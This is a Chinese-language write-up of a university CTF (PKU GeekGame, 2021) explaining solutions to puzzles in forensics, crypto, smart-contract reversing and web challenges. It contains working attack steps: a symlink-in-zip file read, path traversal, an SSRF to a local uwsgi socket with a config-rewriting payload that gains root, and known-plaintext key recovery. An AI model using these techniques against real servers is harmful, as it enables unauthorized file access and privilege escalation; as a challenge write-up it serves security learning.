









| 昵称     | 公开声明   | License                                                      |
| -------- | ---------- | ------------------------------------------------------------ |
| Rainshaw | 无条件公开 | [知识共享署名-非商业性使用 4.0 国际许可协议（CC BY-NC 4.0）](http://creativecommons.org/licenses/by-nc/4.0/) |

[TOC]

## 签到

### 简单做法

在 Windows 系统中使用 Edge 浏览器，直接在下面两行分别双击，选中整行，然后复制到浏览器地址栏即可得到对应的明文。然后将明文按照原有顺序上下排序，即可得到 FLAG

### 被坑做法

题目刚放出来的时候我用的 Mac 电脑。。。正如第二阶段提示，Safari 和 Mac系统自带的预览 都无法完整复制整行，导致我卡了一下午没做出签到题，心态差点炸掉2333

当时使用 strings 命令看到 PDF 中有下面这种花体字符的字体名是`Wingdings-Regular`



于是在网上下载了这个字体，挨个比对，发现和复制出来的没啥区别，心态爆炸+1

## 小北问答

| 题目 | 答案                                                 |
| ---- | ---------------------------------------------------- |
| 1    | 5                                                    |
| 2    | 407                                                  |
| 3    | 2021-07-11T08:49:53+08:00                            |
| 4    | OOO{this_is_the_welcome_flag}                        |
| 5    | 2933523260166137923998409309647057493882806525577536 |
| 6    | submits                                              |
| 7    | AS59201                                              |
| 8    | 区域光纤通信网与新型光通信系统国家重点实验室         |

1. 利用高德地图搜索 `北京大学理科` 会看到 理科1号楼、理科2号楼和理科5号楼，（震惊🤯贵校竟然有理科5号楼，我呆了5年了才知道），发现没有4和6号楼，于是利用百度搜索，发现4号楼是生科、3号楼是毅夫2楼，并且没搜到6号楼。
2. 我首先查看了[第零届的 Github 仓库](https://github.com/PKU-GeekGame/geekgame-0th) 但很遗憾在仓库里并没有找到总注册人数，只有前100的榜单。于是想到这种东西应该可以用来彰显成绩，在宣传的时候应该会用到，于是翻了翻信科的公众号找到推送 [https://mp.weixin.qq.com/s/voAN7LX655Hy5w3_cZmraA](https://mp.weixin.qq.com/s/voAN7LX655Hy5w3_cZmraA) 里写着共407人注册、有效参与人数334人。
3. 印象中有个网站能看某个域名签发的所有免费证书，找了好久才找到这个网站，[https://crt.sh/](https://crt.sh/) ，然后搜索 `geekgame.pku.edu.cn` 即可看到历史签发
   
   可以看到`4362003382` 这个的过期时间和下一个没有接上，再转换一下时间格式即可。
4. 第四题找了好久，主要是一开始没搜对关键词。。一开始用的[https://rayhan0x01.github.io/ctf/2020/08/08/defcon-redteamvillage-ctf-tunneler-1,2,3,4,5,7,9.html](https://rayhan0x01.github.io/ctf/2020/08/08/defcon-redteamvillage-ctf-tunneler-1,2,3,4,5,7,9.html) 这个FLAG，结果做完其他的发现只对了6个，再次查找才找到 DEFCON 的官方 [Pre-qualifier](https://oooverflow.io/dc-ctf-2020-quals/) 网站， 然后进入[DC28Quals](https://scoreboard2020.oooverflow.io/#/) 点击上方 `Challenges` 下载第一个动图中的 txt 即可
   
5. 这问卡了好久，甚至尝试手动计算公式，再考虑到斜边的多种复杂情况后决定放弃，继续搜索。找到[答案](http://oeis.org/A047659)后对世界数学大师感到非常震撼。。。他给了一个(m,n) 棋盘上解个数的公式，利用python把 `^`幂运算换成`**`然后直接计算即可。
6. 肯定要找题目源码，利用第2问中提到的 [第零届的 Github 仓库](https://github.com/PKU-GeekGame/geekgame-0th) ，找到对应的 [源码](https://github.com/PKU-GeekGame/geekgame-0th/blob/2bdf125d4fd408e68f8db977d48a3c495302a714/src/choice/game/db.py#L33) ，当时其实找了一会儿，主要是不知道 `小北问答` 的英文名是哪道题。。。
7. 利用 [ipip.net](https://www.ipip.net/ip.html) 查询计算中心的 IP 地址找到 3个ASN，随便点进第一个发现 Org Name 不是 PKU，在 Down Streams 中找到一个 Org Name 为 PKU 的
8. 翻遍信科的所有机构，列了个表，找出最长的是`区域光纤通信网与新型光通信系统国家重点实验室`


## 共享的机器

打开题目，获得反编译代码如下：

```solidity
def storage:
  stor0 is addr at storage 0
  stor1 is uint256 at storage 1
  stor2 is uint256 at storage 2
  stor3 is uint256 at storage 3

def _fallback() payable: # default function
  revert

def unknown7fbf5e5a(uint256 _param1, uint256 _param2) payable: 
  require calldata.size - 4 >= 64
  if stor0 != caller:
      if stor0 != tx.origin:
          if stor1 != sha3(caller):
              if stor1 != sha3(tx.origin):
                  revert with 0, 'caller must be owner'
  stor2 = _param1
  stor3 = _param2

def unknownded0677d(uint256 _param1) payable: 
  require calldata.size - 4 >= 32
  idx = 0
  s = 0
  while idx < 64:
      idx = idx + 1
      s = s or (Mask(256, -4 * idx, _param1) >> 4 * idx) + (5 * idx) + (7 * Mask(256, -4 * idx, stor2) >> 4 * idx) % 16 << 4 * idx
      continue 
  if stor3 != 0:
      revert with 0, 'this is not the real flag!'
  return 1
```

可以看到就是对输入的数据和`stor2`进行运算后再与`stor3` 比对。

这里遇到不知道是不是坑，上面的反编译是 `etherscan.io` 上的，和其他工具得到的反编译代码有微小差别，我做题时是用的其他工具的结果。

首先使用 web3.py  得到 `store2` 和 `store3`：

```python
import web3
from web3 import Web3

w3 = Web3(Web3.HTTPProvider("https://ropsten.infura.io/v3/83ebfc92383e429a9ea26572d16ba7b9"))

print(w3.eth.get_storage_at("0xa43028c702c3B119C749306461582bF647Fd770a", 0))
b'\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00MR\x00\xa3W\x13\x91\xf3\xe6T\xdf\x15bq\xbf/\x01\xc0\xc5'

print(w3.eth.get_storage_at("0xa43028c702c3B119C749306461582bF647Fd770a", 1))
b"\xdai\x86\x8c\xde'\xbd\x8f2X\t\x8c\xce\xb1\xd0\x9ds\xd5\xc8P\x17V\xee;\\\xb2\xe7x*\xd7M\x98"

print(w3.eth.get_storage_at("0xa43028c702c3B119C749306461582bF647Fd770a", 2))
b'\x15\xee\xa4\xb2U\x1f\x0c\x96\xd0*]b\xf8L\xac\x81\x12i\rh\xc4{\x16\x81N"\x1b\x8a7\xd6\xc4\xd3'

print(w3.eth.get_storage_at("0xa43028c702c3B119C749306461582bF647Fd770a", 3))
b')>\xde\xa6acZ\xab\xcdm\xeb\xa6\x15\xab\x81:v\x10\xc1\xcf\xb9\xef\xb3\x1c\xccR$\xc0\xe4\xb3sr'
```

然后再将反编译代码翻译为 `python` 进行求解，这里卡了一段时间，主要是想从 `store3` 和 `store2` 直接反推出 `_param1` 但由于中间是按位或，导致倒推很困难，基本上很难得到。。。

然后想到每次运算时会比上次多右移4位，所以可以从低位开始每4位爆破，每次只需从0到15依次测试即可，代码如下：

```python

s2 = b'\x15\xee\xa4\xb2U\x1f\x0c\x96\xd0*]b\xf8L\xac\x81\x12i\rh\xc4{\x16\x81N"\x1b\x8a7\xd6\xc4\xd3'
s3 = b')>\xde\xa6acZ\xab\xcdm\xeb\xa6\x15\xab\x81:v\x10\xc1\xcf\xb9\xef\xb3\x1c\xccR$\xc0\xe4\xb3sr'


s2 = int.from_bytes(s2, "big")
s3 = int.from_bytes(s3, "big")

def func_0089(arg0, maxvar1):
    var0 = 0x00
    print(bin(arg0))
    for var1 in range(0, maxvar1):
        var0 = var0 | (((arg0 >> var1 * 0x04) + var1*0x05 + (s2>>var1*0x04)*0x07&0x0f)<<var1*0x04)
        print(f"var: {var0 & ((1<<4*(var1+1))-1)}\ns3: {s3 & ((1<<4*(var1+1))-1)}")
        if var0 & ((1<<4*(var1+1))-1) != s3 & ((1<<4*(var1+1))-1):
            return False
    return True
def calc():
    ans = 0

    for i in range(0, 64):
        print(f"calc i : {i}")
        for tmp in range(0, 16):
            if func_0089(ans + (tmp<<4*i), i+1):
                ans = ans + (tmp<<4*i)
                print(f"ans: {bin(ans)}")
                break
        else:
            print("error")
            exit(-1)
    return ans

ans = calc()
ans = ans.to_bytes((ans.bit_length()+7)//8, "big")

print(ans)
```


## 翻车的谜语人

### FLAG1

利用 Wireshark 打开流量包，搜索 `flag` 字样，找到一个 JSON 格式的 HTTP 请求



```json
{
    "name": "Untitled.ipynb", 
    "path": "Untitled.ipynb", 
    "last_modified": "2021-11-06T07:42:40.600988Z", 
    "created": "2021-11-06T07:42:40.600988Z", 
    "content": {
        "cells": [
            {
                "cell_type": "code", 
                "execution_count": 13, 
                "metadata": {
                    "trusted": true
                }, 
                "outputs": [ ], 
                "source": "import zwsp_steg
from Crypto.Random import get_random_bytes"
            }, 
            {
                "cell_type": "code", 
                "execution_count": 14, 
                "metadata": {
                    "trusted": true
                }, 
                "outputs": [ ], 
                "source": "import binascii"
            }, 
            {
                "cell_type": "code", 
                "execution_count": 15, 
                "metadata": {
                    "trusted": true
                }, 
                "outputs": [ ], 
                "source": "def genflag():
    return 'flag{%s}'%binascii.hexlify(get_random_bytes(16)).decode()"
            }, 
            {
                "cell_type": "code", 
                "execution_count": 16, 
                "metadata": {
                    "trusted": true
                }, 
                "outputs": [ ], 
                "source": "flag1 = genflag()
flag2 = genflag()"
            }, 
            {
                "cell_type": "code", 
                "execution_count": 17, 
                "metadata": {
                    "trusted": true
                }, 
                "outputs": [ ], 
                "source": "key = get_random_bytes(len(flag1))"
            }, 
            {
                "cell_type": "code", 
                "execution_count": 18, 
                "metadata": {
                    "trusted": true
                }, 
                "outputs": [
                    {
                        "data": {
                            "text/plain": "b'\\xc4\\x07[\\xe5zy}b3\\x1aM\\xed\\t\\x14\\x1c\\xea\\x8f\\xfb\\xe52\\\\\\x80\\xb1\\x98\\x8a\\xb4\\xa6\\xdd;\\x92X\\x81\\xcd\\x86\\x86\\xc4\\xe0v'"
                        }, 
                        "execution_count": 18, 
                        "metadata": { }, 
                        "output_type": "execute_result"
                    }
                ], 
                "source": "key"
            }, 
            {
                "cell_type": "code", 
                "execution_count": 19, 
                "metadata": {
                    "trusted": true
                }, 
                "outputs": [ ], 
                "source": "def xor_each(k, b):
    assert len(k)==len(b)
    out = []
    for i in range(len(b)):
        out.append(b[i]^k[i])
    return bytes(out)"
            }, 
            {
                "cell_type": "code", 
                "execution_count": 20, 
                "metadata": {
                    "trusted": true
                }, 
                "outputs": [ ], 
                "source": "encoded_flag1 = xor_each(key, flag1.encode())
encoded_flag2 = xor_each(key, flag2.encode())"
            }, 
            {
                "cell_type": "code", 
                "execution_count": 22, 
                "metadata": {
                    "trusted": true
                }, 
                "outputs": [ ], 
                "source": "with open('flag2.txt', 'wb') as f:
    f.write(binascii.hexlify(encoded_flag2))"
            }
        ], 
        "metadata": {
            "kernelspec": {
                "display_name": "Python 3 (ipykernel)", 
                "language": "python", 
                "name": "python3"
            }, 
            "language_info": {
                "codemirror_mode": {
                    "name": "ipython", 
                    "version": 3
                }, 
                "file_extension": ".py", 
                "mimetype": "text/x-python", 
                "name": "python", 
                "nbconvert_exporter": "python", 
                "pygments_lexer": "ipython3", 
                "version": "3.8.3rc1"
            }
        }, 
        "nbformat": 4, 
        "nbformat_minor": 4
    }, 
    "format": "json", 
    "mimetype": null, 
    "size": 2502, 
    "writable": true, 
    "type": "notebook"
}
```

整理后得到一个 `.ipynb` 文件中的代码，进行还原

```python
from Crypto.Random import get_random_bytes

import binascii

def genflag():
    return "flag{%s}"%binascii.hexlify(get_random_bytes(16)).decode()

flag1=genflag()
flag2=genflag()

key = get_random_bytes(len(flag1))

key = b'\x1e\xe0[u\xf2\xf2\x81\x01U_\x9d!yc\x8e\xce[X\r\x04\x94\xbc9\x1d\xd7\xf8\xde\xdcd\xb2Q\xa3\x8a?\x16\xe5\x8a9'

def xor_each(k, b):
    out = []
    for i in range(len(b)):
        out.append(b[i]^k[i])
    return bytes(out)

encode_flag2 = xor_each(key, flag2.encode())


with open('flag2.txt') as f:
    encode_flag2 = f.write()
```

注意，上面的 key 和截图中的不一致，主要是由于这个数据比较老，在流量中还能找到新的 `Untitled.ipynb` 文件，这个 key 是从新的文件中提取出来的。

然后继续在流量中找 `flag1` 



可以得到 `flag1.txt` 的内容，然后计算即可。

```python
flag1="788c3a1289cbe5383466f9184b07edac6a6b3b37f78e0f7ce79bece502d63091ef5b7087bc44"

key = b'\x1e\xe0[u\xf2\xf2\x81\x01U_\x9d!yc\x8e\xce[X\r\x04\x94\xbc9\x1d\xd7\xf8\xde\xdcd\xb2Q\xa3\x8a?\x16\xe5\x8a9'

def xor_each(k, b):
    out = []
    for i in range(len(b)):
        out.append(b[i]^k[i])
    return bytes(out)

flag1 = xor_each(key, bytes.fromhex(flag1))
print(flag1)
```

### FLAG2

在流量中搜索 `flag2` 可以看到一个 HTTP 传输的压缩包，保存下来后解压发现有密码，继续在流量中搜索 `flag2` 发现了 `websocket` 包



在里面看到了压缩包是如何生成的，还原密码为

Wakarimasu! \`date\` \`uname -nom\` \`nproc\`

> markdown 好难写这个密码，还是看截图吧



`date` 是当时的日期时间，在流量包中找到该压缩包的生成时间为`2021-11-06T07:44:16`，我在 wsl2 虚拟机上将时间调整到 6 号执行 `date` 命令得到如下格式`Sat  6 Nov 2021 21:10:11 CST` 

`uname -nom` 得到 `vm x86_64 GNU/Linux` 其中 `vm` 是我的虚拟机名，在 websocket 包中可以找到 You 酱的虚拟机名，第二项是处理器架构，现在应该都是64位机，第三项是系统相关。

`nproc` 是处理器线程数，在 websocket 包中可以看到 You 酱的虚拟机是 8线程的 

于是得到密码为 `Wakarimasu! Sat  6 Nov 2021 07:44:16 CST you-kali-vm x86_64 GNU/Linux 8` 改动的地方只有秒位需要，结果尝试了很久都无法解压成功，一度怀疑是压缩包有问题，还尝试了修复压缩包。。。

直到第二阶段提示放出后，才知道是 `date` 部分错了，正确的密码是`Wakarimasu! Sat 06 Nov 2021 03:44:15 PM CST you-kali-vm x86_64 GNU/Linux 8`

解压后得到一个 `.wav` 文件，通过 websocket 包得知，该文件是用 `stegolsb` 将 `flag2.txt` 隐写进去得到的



于是使用命令`stegolsb wavsteg -r -i xxx.wav -o encode_flag2.txt -n 1 -b 76` 其中的 `-n` 参数和 `-b` 参数是在 websocket 包中得到的。

重复 FLAG1 中的解密步骤即可得到 FLAG2

## 在线解压网站

通过分析源码可以看到，当访问路径是文件时，会返回该文件对应的内容。而 FLAG 藏在根目录下，于是猜测是否可以利用Linux下的软链接读取flag，

```bash
touch /flag
ln -s /flag ./test
```

然后压缩 `test` 文件再上传至服务器，确实能得到 FLAG


## 早期人类的聊天室

第一阶段未解出来但分析了很多，第二阶段看到提示后即解。

首先分析源码发现可以任意读取文件，只需要在参数上拼接足够的`../`即可访问到根目录，尝试直接读取 flag 失败，应该是没有权限。

利用 linux 上的 `/proc` 目录读取自身的 `cmdline` 得到 uwsgi 配置文件路径，访问该文件发现服务器的进程的权限是 `nobody` ，这时想着能否提权，尝试了很多办法都不行，卡住。。。

在卡住的过程中，我遍历了 `pid` 得知服务器是用 supervisor 启动的，于是想到能否更改 uwsig 配置文件，然后重启 uwsgi 进程就能提权，但迫于无法写入 uwsgi 配置文件，且无法执行命令，卡住。。。

第二阶段看到提示后，才知道要利用 uwsgi 的 rce ，啊这🤯，用了好几年的 uwsgi 都不知道有漏洞。。。

于是使用服务器发送消息页面，将地址改为 `127.0.0.1:3031` ，这个端口号是上面通过读取 uwsgi  配置文件得到的。

然后使用 [uwsgi_exp.py](https://github.com/wofeiwo/webcgi-exploits/blob/master/python/uwsgi_exp.py) 构造 payload， 首先修改 uwsgi 配置文件

```
echo '[uwsgi]
socket = :3031
chdir = /usr/src/ufctf
manage-script-name = true
mount = /=app:app
master = true
uid = root
gid = root
workers = 2
buffer-size = 65535
enable-threads = true
pidfile = /tmp/uwsgi.pid
' >/tmp/uwsgi-ctf.ini
```

由于 uwsgi 进程权限很低，创建新进程还是 `nobody` 所以只能考虑重启 uwsgi 进程，尝试了`uwsgi --reload /tmp/uwsgi.pid` 发现并没有提权成功，于是使用 `uwsgi --stop /tmp/uwsgi.pid` ~~(我自己停止我自己总行了吧)~~，借助于 supervisor 这个进程管理器成功得到新的 root 权限的 uwsgi 进程，然后直接读取 `/flag` 即可。


## Flag 即服务

### Flag0

卡了很久，主要是搜到了 RFC 3986， 以为浏览器和各种发送请求的工具都会遵循，后来偶然发现 Postman 并没有遵循该标准。。。于是利用 Postman 访问 `/api/../package.json`  得到 `package.json` 文件，从文件中得到 `jsonaas-backend` 的下载链接，从而得到源码。

阅读源码，发现对 `FLAG0` 有特殊约束

```js
FLAG0===`flag{${0.1+0.2}$}`
```

在浏览器中执行 0.1+0.2 即可得到 FLAG0

### FLAG1 和 FLAG2

尝试了很多方法都不行，简单说下自己尝试过的思路。

FLAG2 应该是 vm 沙盒逃逸，而且由于代码中只是在文件系统中 `unlink` 了`flag2.txt` 所以还是可以用其他方法读取的。

FLAG1 尝试了 `session` 伪造，发现行不通；尝试构造 `req.query` 绕过验证失败。

静待大神们的 WP


## 诡异的网关

<u>这题我应该是非预期解😊</u>

打开软件后随便点点发现有个用户名叫 `flag` 且密码以星号表示，于是在网上找了个能用的[星号查看器](WriteUp.assets/peekPassword.zip) 解压密码`geekgame` ~~不加密会报毒然后直接被删除~~。。。然后就得到了 FLAG



静待大神们的 WP


## 密码学实践

> 这题出的太好了！

### FLAG1

阅读代码发现和 Richard 谈话时， FLAG1 会直接拼接在已知明文后再加密发送给我们，于是查看加密算法，手推加密循环发现，密文和明文之间关系较为简单。

如果已知明文和密文，可以倒推出加密使用的key，然后再利用得到的key，解密 FLAG 部分的密文。

代码如下：

```python
from Crypto.Util.number import bytes_to_long, long_to_bytes


def get(mess: bytes, oristr: bytes):
    pmess = mess[0:32]
    a0 = bytes_to_long(pmess[0:8])
    b0 = bytes_to_long(pmess[8:16])
    c0 = bytes_to_long(pmess[16:24])
    d0 = bytes_to_long(pmess[24:32])

    o0 = bytes_to_long(oristr[0:8])
    o1 = bytes_to_long(oristr[8:16])
    o2 = bytes_to_long(oristr[16:24])
    o3 = bytes_to_long(oristr[24:32])

    ka = c0 ^ a0 ^ o0
    kb = d0 ^ b0 ^ o1
    kc = a0 ^ o2
    kd = b0 ^ o3

    ori = b""
    for it in range(32, len(mess), 32):
        pmess = mess[it:it+32]
        a1 = bytes_to_long(pmess[0:8])
        b1 = bytes_to_long(pmess[8:16])
        c1 = bytes_to_long(pmess[16:24])
        d1 = bytes_to_long(pmess[24:32])
        a, b, c, d = c1^a1^ka, d1^b1^kb, a1^kc, b1^kd

        a = long_to_bytes(a, 8)
        b = long_to_bytes(b, 8)
        c = long_to_bytes(c, 8)
        d = long_to_bytes(d, 8)

        ori += a+b+c+d
        print(ori)


def pad(msg):
    n = 32 - len(msg) % 32
    return msg + bytes([n]) * n


